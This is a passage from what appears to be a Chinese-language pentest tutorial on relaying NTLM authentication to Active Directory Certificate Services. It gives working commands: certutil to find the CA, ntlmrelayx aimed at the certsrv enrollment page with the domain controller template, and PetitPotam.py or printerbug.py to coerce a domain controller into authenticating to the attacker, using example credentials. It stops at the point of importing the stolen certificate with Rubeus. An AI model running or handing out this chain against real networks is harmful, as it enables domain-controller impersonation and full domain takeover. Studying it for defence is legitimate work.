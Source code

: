 certutil -config - -ping

  

![]()

  

ntlmrelayx监听，这里需要新的impacket：https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-
adcs-attack

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

python3 ntlmrelayx.py -t http://10.211.55.4/certsrv/certfnsh.asp -smb2support
--adcs --template 'domain controller'

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182618.png)

  

使用脚本触发辅助域控回连我们的攻击机器，这里可以使用最新的Petitpotam.py，也可以使用printerbug.py
。详情：[利用PetitPotam进行NTLM
Relay攻击](http://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247489212&idx=1&sn=798d206b1a90e104443bc4d75a001a2c&chksm=eaad9681ddda1f977e555e1f48a070d0af0b5d2e8d1389c5c0a7b2cc0cc2356dfa2bf66927b4&scene=21#wechat_redirect)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)  

python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.5

  

#或者使用printerbug.py也可以触发

python3 printerbug.py xie/hack@10.211.55.5 10.211.55.2

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182620.png)

  

或

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182622.png)

  

获取到base64编码的证书数据，会打印出很多个base64编码的证书，我们随便选择一个即可。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182623.png)

  

然后使用Rubeus导入证书数据

  
